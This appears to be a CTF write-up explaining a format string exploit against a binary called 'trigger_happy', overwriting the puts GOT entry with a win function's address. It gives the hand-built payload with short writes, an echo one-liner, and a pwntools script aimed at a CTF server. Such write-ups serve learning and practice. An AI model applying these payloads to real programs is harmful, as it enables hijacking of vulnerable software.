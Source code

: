 #### 1. Doing it the hard way
Let's start with crafting our exploit without using any scripts or fancy tools.
Here is the info we have gathered so far.
1. printf entry that we control is at index **4**
2. puts pointer address: **`0x804c018z`**
3. flaggy function address: **`0x8049245`**

our payload will be as follows:

`pointer` `data to be written` `the write specifier`

which is equivalent to the following:

`0x804c018` `%(0x8049245 - 4)x` `%4$n`

convert puts address to little endian and equate the integer value of (0x8049245 - 4)

```
\x18\xc0\x04\x08 %134517313x %4$n
```

but on using this payload we literally write 134517313 blank characters to stdout which is going to take ~2 mins everytime we are trying to execute the payload.

This makes it pretty damn hard to test and debug our payload, but the good news is we can use an alternate faster method using short writes (2-bytes write) instead of an integer write (4-byte write).

Instead of directly writing to the puts pointer `0x804c018` we can write two bytes `0x804` to the upper nibbe of the pointer `0x804c018 + 2` and another two bytes `0x9245` to the lower nibble of the pointer `0x804c018`.

Don't forget that we need to **subtract** the amount of charcters written so far from each write we do.

Here is the payload:

`0x804c018+2` `0x804c018` `%(0x804-8)x` `%4$n` `%(0x9245-0x804)x` `%5$n`

We will convert the first two addresses to little endian and the second two addresses to their integer equivalent.

`\x1a\xc0\x04\x08` `\x18\xc0\x04\x08` `%2044x` `%4$hn` `%35393x` `%5$hn`

And we can use echo with the -e flag to pass it to our binary escaping the "$" using a forward slash.

```bash
echo -e "\x1a\xc0\x04\x08\x18\xc0\x04\x08%2044x%4\$hn%35393x%5\$hn" | ./trigger_happy
```

And we get our flag!

#### 2. Using pwntools to craft our exploit.
Here is how I built the same exploit using python and pwntools.

```python
from pwn import *
OFFSET = 4
elf = ELF('./trigger_happy')

if args['REMOTE']:
    io = remote('ctf.0xl4ugh.com', 1337)
else:
    io = process('./trigger_happy')

puts = elf.got['puts']
win = elf.symbols['flaggy']
payload = fmtstr_payload(OFFSET, {puts: win}, write_size='byte')

def run():
    print(io.readlineS())
    io.sendline(payload)
```